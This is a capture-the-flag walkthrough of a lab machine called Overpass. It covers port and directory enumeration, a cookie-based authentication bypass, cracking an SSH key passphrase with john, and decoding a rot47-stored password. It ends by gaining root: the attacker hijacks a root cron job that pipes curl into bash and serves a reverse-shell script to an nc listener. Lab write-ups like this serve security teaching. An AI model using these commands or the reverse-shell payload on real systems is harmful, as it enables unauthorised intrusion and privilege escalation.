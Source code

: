 Target: 10.10.37.241 

## Enumeration

nmap
```
$ sudo nmap -sC -sV 10.10.37.241 

Nmap scan report for 10.10.37.241
Host is up (0.41s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 37:96:85:98:d1:00:9c:14:63:d9:b0:34:75:b1:f9:57 (RSA)
|   256 53:75:fa:c0:65:da:dd:b1:e8:dd:40:b8:f6:82:39:24 (ECDSA)
|_  256 1c:4a:da:1f:36:54:6d:a6:c6:17:00:27:2e:67:75:9c (ED25519)
80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

ffuf
```
$ ffuf -w /usr/share/dirbuster/wordlists/directory-list-2.3-small.txt -u http://10.10.37.241/FUZZ  

img                     [Status: 301, Size: 0, Words: 1, Lines: 1]
downloads               [Status: 301, Size: 0, Words: 1, Lines: 1]
aboutus                 [Status: 301, Size: 0, Words: 1, Lines: 1]
admin                   [Status: 301, Size: 42, Words: 3, Lines: 3]
css                     [Status: 301, Size: 0, Words: 1, Lines: 1]
```

checking index
![index](overpass1.png)

checking /downloads
![/downloads](overpass2.png)

viewing source code of overpass.go
```
cat overpass.go

<snip>
//Secure encryption algorithm from https://socketloop.com/tutorials/golang-rotate-47-caesar-cipher-by-47-characters
<snip>
```

overpass uses rot47 as the encryption method

checking /admin
![/admin](overpass3.png)

inspecting login js code
![js](overpass4.png)
```
async function login() {
    const usernameBox = document.querySelector("#username");
    const passwordBox = document.querySelector("#password");
    const loginStatus = document.querySelector("#loginStatus");
    loginStatus.textContent = ""
    const creds = { username: usernameBox.value, password: passwordBox.value }
    const response = await postData("/api/login", creds)
    const statusOrCookie = await response.text()
    if (statusOrCookie === "Incorrect credentials") {
        loginStatus.textContent = "Incorrect Credentials"
        passwordBox.value=""
    } else {
        Cookies.set("SessionToken",statusOrCookie)
        window.location = "/admin"
    }
}
```

### Findings:Looking for attack vectors

Exploting Broken Authentication in login.js (Cookie SessionTokon).


## Foothold:

setting cookie on console
```
Cookies.set("SessionToken",1)
```

checking /admin authenticated
![/admin authenticated](overpass5.png)

making overpass_key
```
$ vim overpass_key

$ chmod 600 overpass_key
```

ssh2john
```
$ python ssh2john.py overpass_key > hash      
```

cracking passphrase with john
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash    

Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
james13          (overpass_key)
1g 0:00:00:05 DONE (2021-05-18 04:25) 0.1879g/s 2695Kp/s 2695Kc/s 2695KC/sa6_123..*7¡Vamos!
Session completed
```

logging-in
```
$ ssh james@10.10.37.241 -i overpass_key

james@overpass-prod:~$ id

uid=1001(james) gid=1001(james) groups=1001(james)
```

```
james@overpass-prod:~$ cat user.txt

<redacted>
```

## Priv Escalations:

looking for suspiciuos file/s
```
james@overpass-prod:~$ ls -la

total 48
drwxr-xr-x 6 james james 4096 Jun 27  2020 .
drwxr-xr-x 4 root  root  4096 Jun 27  2020 ..
lrwxrwxrwx 1 james james    9 Jun 27  2020 .bash_history -> /dev/null
-rw-r--r-- 1 james james  220 Jun 27  2020 .bash_logout
-rw-r--r-- 1 james james 3771 Jun 27  2020 .bashrc
drwx------ 2 james james 4096 Jun 27  2020 .cache
drwx------ 3 james james 4096 Jun 27  2020 .gnupg
drwxrwxr-x 3 james james 4096 Jun 27  2020 .local
-rw-r--r-- 1 james james   49 Jun 27  2020 .overpass
-rw-r--r-- 1 james james  807 Jun 27  2020 .profile
drwx------ 2 james james 4096 Jun 27  2020 .ssh
-rw-rw-r-- 1 james james  438 Jun 27  2020 todo.txt
-rw-rw-r-- 1 james james   38 Jun 27  2020 user.txt

james@overpass-prod:~$ cat todo.txt

To Do:
> Update Overpass' Encryption, Muirland has been complaining that it's not strong enough
> Write down my password somewhere on a sticky note so that I don't forget it.
  Wait, we make a password manager. Why don't I just use that?
> Test Overpass for macOS, it builds fine but I'm not sure it actually works
> Ask Paradox how he got the automated build script working and where the builds go.
  They're not updating on the website

james@overpass-prod:~$ cat .overpass 

,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.
````

decoding password (rot37)
```
,LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN.

[{"name":"System","pass":"saydrawnlyingpicture"}]
```

enumeration using linpeas
```
./linpeas.sh

[+] Cron jobs
<snip>
* * * * * root curl overpass.thm/downloads/src/buildscript.sh | bash
<snip>
```

editiong /etc/hosts
```
vim /etc/hosts

<ip>	overpass.thm
```

preparing buildscript
```
$ mkdir downloads && cd downloads && mkdir src && cd src && touch buildscript.sh

$ vim buildscript.sh

bash -c 'exec bash -i &>/dev/tcp/<ip>/9001 <&1'
```

serving buildscript
```
$ sudo python3 -m http.server 80

Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

opening a nc listener on port 9001
```
$ nc -lnvp 9001
```

waiting for conjob
```
root@overpass-prod:~# id

uid=0(root) gid=0(root) groups=0(root)
```

```
root@overpass-prod:~# cat root.txt

<redacted>
```
